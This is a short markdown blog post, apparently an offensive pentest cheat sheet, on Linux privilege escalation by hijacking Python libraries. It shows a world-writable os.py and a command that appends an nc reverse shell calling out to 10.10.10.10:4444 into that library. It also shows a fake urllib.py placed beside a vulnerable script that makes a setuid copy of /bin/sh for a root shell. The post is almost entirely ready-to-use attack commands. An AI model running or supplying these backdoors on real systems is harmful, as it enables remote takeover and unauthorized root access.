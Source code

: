 ```yaml
---
layout: post
title:  "Python Lib Hijacking"
date:   2022-01-01
categories: linux
---
```



## If library is writable

### LinuxPrivChecker - World Writabel Files


```bash

[+] World Writable Files
-rwxrwxrwx 1 root root 25911 Mar  7 15:48 /usr/lib/python2.7/os.py

```

### Injection Malicious Code

```bash

echo "import subprocess;subprocess.call(['nc', '-e','/bin/sh','10.10.10.10','4444'], shell=False)" >> /usr/lib/python2.7/os.py

```

## If library is not writable

### In the same Directory of the vulnerable script


```bash

the script imports : import urllib

the malicious urllib.py contents in the same directory of the vulnerable script :

import os
os.system("cp /bin/sh /tmp/sh;chmod u+s /tmp/sh") 

/tmp/sh -p
```